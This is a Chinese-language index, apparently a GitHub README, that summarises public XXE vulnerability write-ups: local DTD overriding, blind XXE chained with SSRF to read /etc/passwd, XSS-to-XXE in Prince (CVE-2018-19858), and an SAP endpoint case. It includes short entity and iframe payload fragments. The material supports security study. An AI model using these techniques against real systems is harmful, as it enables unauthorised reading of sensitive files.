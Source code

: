 # XXE
XML外部实体注入(XXE)案例合集  
仅供参考
## :ledger: 索引及其简述
1. [**使用本地 DTD 文件利用 XXE**](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
当基于错误外带利用XXE被防火墙拦截时  
可以利用本地DTD文件进行覆盖利用  
如果您定义两个具有相同名称的实体，则只会使用第一个实体。  

2. [**从盲目的 XXE 到根级文件读取访问**](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)
发现响应包回显xml格式，尝试修改ct头post传递错误xml版本和正文，显示报错  
尝试burp的 Collaborator外带测试，发现只收到dns请求，http请求被防火墙过滤  
通过回显发现盲xxe，结合github发现的内部服务可能存在jira的ssrf漏洞  
发现传入http请求，随后结合外部实体调用回显本地文件  
使用:绕过/etc/passwd显示不全  
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">  

3. [**Prince v10 及以下版本中的 XSS 到 XXE (CVE-2018-19858)**](https://www.corben.io/XSS-to-XXE-in-Prince/)  
Prince，这是一种将“HTML、XHTML 或许多基于 XML 的文档格式之一”转换为 PDF 的软件。  
由于存在xss导致可通过pdf生成xxe泄露本地文件数据  
<iframe src="http://<server>/xxe.xml">  

4. [**SAP 中一个有趣的 XXE**](https://medium.com/@zain.sabahat/an-interesting-xxe-in-sap-8b35fec6ef33)  
发现一个POST请求/sap/cpa/api/getSolutions传递了XML  
修改payload发现回显  
修改为/etc/passwd发现漏洞。  